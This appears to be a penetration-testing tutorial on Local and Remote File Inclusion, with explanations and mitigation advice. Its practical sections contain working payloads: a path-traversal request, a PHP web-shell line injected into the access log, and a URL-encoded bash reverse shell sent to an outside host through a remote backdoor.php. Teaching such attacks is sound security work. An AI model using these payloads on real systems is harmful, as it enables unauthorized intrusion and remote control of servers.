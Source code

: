 # File Inclusion Vulnerabilities: LFI and RFI RCE with URL encoding

    # Technical Executive Summary
        # Understanding File Inclusion Vulnerabilities

            Saverity: Medium - Critical 
                Depends on the content that you can display

    File Inclusion vulnerabilities, including Local File Inclusion (LFI) and Remote File Inclusion (RFI), are critical security issues that can lead to severe consequences such as unauthorized access, data breaches,     and remote code execution. These vulnerabilities arise when a web application allows the inclusion of files without proper validation and sanitization of user inputs.
    Local File Inclusion (LFI)

    LFI occurs when a web application includes files from the local server's filesystem. This can be exploited to read sensitive files, execute code, and gain unauthorized access to the system. One common technique         to exploit LFI is through Log Poisoning, where malicious code is injected into log files that are later included by the web application.
    Remote File Inclusion (RFI)

    RFI is a more dangerous variant that allows the inclusion of files from remote servers. This can lead to remote code execution by including and executing malicious scripts hosted externally. Exploiting RFI            typically involves hosting a malicious file and crafting a URL to include it in the vulnerable web application.
    Exploitation Techniques

    Identifying Vulnerabilities: Penetration testers use various techniques and tools to identify LFI and RFI vulnerabilities, such as fuzzing and analyzing HTTP responses.
    Log Poisoning: For LFI, testers inject malicious payloads into log files or other writable files on the server to execute code.
    Crafting Exploit URLs: For RFI, testers prepare and host malicious files on remote servers and craft URLs to include these files in the web application.

# Mitigation Strategies

To mitigate these vulnerabilities, web developers should:

    Validate and sanitize all user inputs.
    Disable unnecessary features like allow_url_include in PHP.
    Implement strict access controls to sensitive files and directories.
    Regularly update and patch web application frameworks and libraries.

# Role of Penetration Testers

Penetration testers play a crucial role in identifying and mitigating file inclusion vulnerabilities. By simulating real-world attack scenarios, they help organizations understand their security posture and implement effective countermeasures. Testers use a combination of manual techniques and automated tools to discover vulnerabilities and provide actionable recommendations for remediation.
Conclusion
File Inclusion vulnerabilities pose a significant risk to web applications and can lead to devastating security breaches if not properly addressed. Understanding the mechanisms behind LFI and RFI, along with employing robust security practices, is essential for protecting web applications from these attacks. Penetration testers provide valuable insights and expertise in identifying and mitigating these vulnerabilities, ensuring the security and integrity of web systems.



## Local File Inclusion (LFI)

### Overview

Local File Inclusion (LFI) vulnerabilities allow attackers to include files from the server's filesystem into the running code of a web application. This can lead to Remote Code Execution (RCE) if the included files contain executable code.

### Difference Between LFI and Directory Traversal

- **Directory Traversal**: Allows reading files outside the web root directory.
- **File Inclusion**: Allows including and potentially executing files within the web application's running code.

### Exploiting LFI with Log Poisoning

#### Step-by-Step Example

1. **Identify the Vulnerability**: Find a vulnerable parameter in the web application that accepts file paths.
2. **Modify Log Entries**: Use tools like `curl` to send data to the web application that gets logged.
3. **Include the Log File**: Use the LFI vulnerability to include the modified log file, executing the payload.

#### Practical Example

```bash
kali@kali:~$ curl http://example.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
Modify the User Agent in Burp Suite to include a PHP code snippet:
```bash
<?php echo system($_GET['cmd']); ?>
```
Send the modified request and include the log file:
```bash
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
Output Example
```bash
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
# Remote File Inclusion (RFI)
## Overview

Remote File Inclusion (RFI) vulnerabilities allow attackers to include files from remote servers. This can be more dangerous than LFI because it allows attackers to execute code from external sources.
Exploiting RFI
Step-by-Step Example

    Identify the Vulnerability: Find a vulnerable parameter in the web application that accepts file paths.
    Host a Malicious File: Prepare and host a malicious PHP file on a remote server.
    Craft the Exploit URL: Include the remote file in the vulnerable parameter and pass commands to it.

Practical Example
```bash
curl "http://example.com/meteor/index.php?page=http://192.168.45.184/backdoor.php&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.184%2F4444%200%3E%261%22"
```

### Conclusion

By understanding and exploiting RFI vulnerabilities, attackers can include and execute remote files on a target system, leading to severe security breaches. Proper security measures, such as disabling allow_url_include and validating input parameters, are essential to prevent such attacks.


